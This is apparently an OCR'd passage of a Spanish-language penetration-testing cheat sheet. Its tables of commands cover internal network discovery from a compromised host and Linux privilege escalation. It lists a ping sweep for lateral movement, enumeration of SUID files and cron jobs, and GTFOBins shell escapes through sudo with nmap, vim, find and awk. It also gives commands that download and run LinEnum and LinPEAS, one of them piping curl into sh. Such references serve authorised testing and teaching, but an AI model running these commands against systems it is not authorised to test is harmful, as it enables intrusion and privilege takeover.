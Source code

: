 | Procesos detallados          | `ps -eo pid,ppid,user,command`       | Vista estructurada de jerarquía de procesos     |

#### Análisis de Red Interna

| Técnica                      | Comando                              | Propósito Académico                              |
|------------------------------|--------------------------------------|--------------------------------------------------|
| Descubrimiento interno       | `for i in {1..254}; do ping -c 1 -W 1 192.168.1.$i 2>/dev/null | grep "64 bytes"; done` | Mapeo de red interna para movimiento lateral |
| Tabla ARP                    | `arp -a`                             | Identificar hosts que han comunicado             |
| Vecinos IP                   | `ip neigh`                           | Asociaciones IP-MAC recientes                    |
| Conexiones activas           | `netstat -tupln`                     | Mapear comunicaciones desde host comprometido   |
| Conexiones activas (moderno) | `ss -tupln`                          | Versión moderna de netstat                       |

### 4.2 Escalación de Privilegios

#### Enumeración de Vectores de Escalación

| Técnica                      | Comando                              | Propósito Académico                              |
|------------------------------|--------------------------------------|--------------------------------------------------|
| Permisos sudo                | `sudo -l`                            | Identificar comandos con privilegios elevados   |
| Binarios SUID                | `find / -perm -4000 2>/dev/null`     | Localizar binarios con bit SUID                 |
| Binarios SUID (alternativo)  | `find / -perm -u=s -type f 2>/dev/null` | Método alternativo para SUID                    |
| Archivos escribibles         | `find / -writable 2>/dev/null | grep -v proc | grep -v sys` | Identificar archivos modificables |
| Tareas programadas usuario   | `crontab -l`                         | Ver tareas programadas del usuario actual       |
| Tareas sistema               | `cat /etc/crontab`                   | Ver tareas programadas del sistema              |
| Directorios cron             | `ls -la /etc/cron.*`                 | Analizar todos los directorios de cron          |

#### Explotación de Sudo/SUID (Referencia GTFOBins)

| Vector                       | Comando                              | Propósito Académico                              |
|------------------------------|--------------------------------------|--------------------------------------------------|
| Escalación con nmap          | `sudo nmap --interactive`<br/>`nmap> !sh` | Abuso de funcionalidad legítima               |
| Escalación con vim           | `sudo vim -c ':!/bin/sh'`            | Escape de vim a shell privilegiada              |
| Escalación con find          | `sudo find /etc -exec sh -i \;`      | Ejecución de shell via find                     |
| Escalación con awk           | `sudo awk 'BEGIN {system("/bin/sh")}'` | Escalación usando AWK                         |

#### Scripts de Automatización para Escalación

| Herramienta | Comando                                          | Propósito Académico                              |
|-------------|--------------------------------------------------|--------------------------------------------------|
| LinEnum     | `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`<br/>`chmod +x LinEnum.sh`<br/>`./LinEnum.sh` | Enumeración automatizada de vectores |
| LinPEAS     | `curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh` | Análisis automatizado con scoring |
